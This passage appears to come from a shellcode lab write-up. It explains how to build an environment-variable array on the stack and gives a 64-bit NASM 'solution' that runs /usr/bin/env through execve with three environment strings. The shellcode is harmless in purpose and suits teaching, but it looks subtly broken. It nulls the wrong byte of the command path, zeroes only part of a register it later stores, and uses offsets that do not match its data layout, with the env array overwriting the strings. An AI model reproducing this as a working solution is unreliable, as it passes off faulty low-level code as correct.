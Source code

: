 ```

To write such a shellcode, we need to construct an environment variable array on the stack, and store the
address of this array to the rdx register, before invoking execve(). The way to construct this array on
the stack is exactly the same as the way how we construct the argv[] array. See the following:

```
env[0] = address to the "aaa=hello" string
env[1] = address to the "bbb=world" string
env[2] = address to the "ccc=hello world" string
env[3] = 0 // 0 marks the end of the array
```
##### solution

- code : `solution/mysh64_execve.s`

```nasm
section .text
  global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx                ; Get address of "/usr/bin/env"

        ; Terminate the command string
        xor al, al
        mov [rbx+11], al      ; Null terminate "/usr/bin/env"

        ; Set up env strings
        mov [rbx+12], rbx     ; Store address of command as argv[0]
        mov [rbx+28], rax     ; Null terminate argv array

        ; Store addresses of environment strings
        lea rcx, [rbx+20]     ; Address of "aaa=hello"
        mov [rbx+40], rcx     ; env[0]
        lea rcx, [rbx+30]     ; Address of "bbb=world"
        mov [rbx+48], rcx     ; env[1]
        lea rcx, [rbx+40]     ; Address of "ccc=hello world"
        mov [rbx+56], rcx     ; env[2]
        mov qword [rbx+64], 0 ; env[3] = NULL

        ; Execute execve
        mov rdi, rbx          ; First arg: command path
        lea rsi, [rbx+12]     ; Second arg: argv array
        lea rdx, [rbx+40]     ; Third arg: envp array
        mov rax, 59           ; syscall number for execve
        syscall

    two:
        call one
        ; Command and strings
        db '/usr/bin/env', 0      ; The command string
        db 'AAAAAAAA'             ; Placeholder for argv[0]
        db 'BBBBBBBB'             ; Null terminator for argv
        db 'aaa=hello', 0         ; env[0]
        db 'bbb=world', 0         ; env[1]
        db 'ccc=hello world', 0   ; env[2]
        db 'AAAAAAAA'             ; Placeholder for env array
        db 'BBBBBBBB'
        db 'CCCCCCCC'
        db 'DDDDDDDD'
```